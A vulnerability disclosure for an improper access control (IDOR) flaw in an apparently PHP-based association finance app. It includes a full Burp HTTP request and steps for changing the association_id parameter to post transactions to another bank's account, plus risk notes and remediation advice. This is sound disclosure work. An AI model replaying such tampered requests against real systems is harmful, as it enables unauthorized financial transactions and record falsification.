

# Improper Access Control

 

# Description

An **Improper Access Control** vulnerability (CWE-284) exists in the transaction submission endpoint. By manually modifying the `association_id` parameter during a transaction request, an attacker can alter the cash balance of a different bank account — one that they are **not authorized** to access or modify.

# Exploitation

The system incorrectly trusts the `association_id` parameter provided by the user without verifying if the authenticated user has permission over the specified association (bank). This allows a malicious user to:

- Submit a transaction on behalf of another bank

# PoC



Burp request:

```python
POST /index.php?page=financial/account.php HTTP/2
Host: 9c20782de35f.3xploit.me
Cookie: PHPSESSID=12dc4b4ec825c2333fe64bef0aaead3e
Content-Length: 175
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://9c20782de35f.3xploit.me
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://9c20782de35f.3xploit.me/index.php?page=financial/account.php
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

association_id=2&transaction_amount=10&transaction_description=s&donator_name=John&csrf_token=d0b7af4f0887f0d8b45f393ac1f51bc23e15bae8d6d68646eec6993f32da334a&add_transaction=
```

**Steps to exploit:**

1. Log in as a legitimate user create association and bank (association_id=1).
2. Add a transaction
3. Intercept the transaction request using a proxy tool like Burp Suite.
4. Modify `association_id=1` to `association_id=2` (or another target bank ID).
5. Submit the request.
6. The transaction is processed under the other bank’s account, without any authorization error.

# Risk

- **Account Integrity Violation:** Unauthorized transactions can be performed against any bank entity.
- **Reputation Risk:** Associations may lose trust if donors or auditors detect unauthorized transactions.
- **Potential Legal Issues:** If donation records are used for reporting (e.g., tax filings, audits), falsified data could create compliance risks.
- **Operational Impact:** Staff may make decisions based on incorrect financial information.

# Remediation

- Always validate that the user is authorized to operate on the specific `association_id`.
- Never trust user-submitted identifiers for sensitive operations.
- Bind the user's session to their allowed associations server-side.
- Conduct server-side authorization checks even if client-side restrictions exist.

# References

- https://cwe.mitre.org/data/definitions/284.html
- https://owasp.org/Top10/en/A01_2021-Broken_Access_Control/

# Author

4Fromages